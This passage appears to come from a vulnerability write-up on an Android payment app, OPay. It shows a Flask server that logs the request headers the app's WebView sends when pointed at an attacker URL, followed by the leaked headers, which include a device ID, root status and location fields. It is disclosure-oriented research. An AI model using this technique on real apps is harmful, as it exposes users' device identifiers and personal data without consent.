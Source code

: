 ## Why it can be harmful ?
You may now wondering why using a `WebView` or an activity in another app would be result in harmful impact. So, basically if we created a simple `HTTP` server and each time a user visit our `HTTP` server we will print the USER's Headers. Here i used a simple `Flask` app: ![6956c1366f205859d7d57a3dd81cdb7f.png](../_resources/6956c1366f205859d7d57a3dd81cdb7f.png)

- Flask code:
```
from flask import Flask, request

app = Flask(__name__)

# End point and request methods
@app.route("/", methods=["POST", "GET"])
def index():
    # Print the request headers
    print(request.headers)

		# Print hello world in the page
    return "Hello, World!"

if __name__ == "__main__":
    # Run the app
    app.run(host="192.168.0.143")# host to listen on
```

Now, Let's pass our `URL` to the activity:

![51a82d287695ff98df529c82b261edee.png](../_resources/51a82d287695ff98df529c82b261edee.png)

On the right you can see our `Emulator` and the `Opay` application opened & our web sever on the activity. On the left you can see our `Console` and the `Opay` user headers printed as a result of visiting our web server.

- Headers:
```
Host: 192.168.0.143:5000
Connection: keep-alive
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Linux; Android 7.1.1; Android SDK built for x86_64 Build/NYC; wv) AppleWebKit/537.36 (KHTML, like Gecko) Version/4.0 Chrome/52.0.2743.100 Mobile Safari/537.36
Role: 
Gender: 
Isroot: true
Versionname: 1.10.1.44
Versioncode: 1089552
Gaid: 
Latitude: 0.0
Longitude: 0.0
Language: en
Mcc: 310260
Deviceid: 210515E35F2DBD8DFF2C75B2263BA9F6
Platform: Android
Uid: 
Appid: 12
Countrycode: EG
Localcode: EG
Cityname: 
Model: Android SDK built for x86_64
Brand: Android
Isvirtualdevice: true
Traceid: c0b84f03-67a5-4f9a-a549-f1112c0ffc57
Os: 7.1.1
Appname: OPay
Avatar: 
```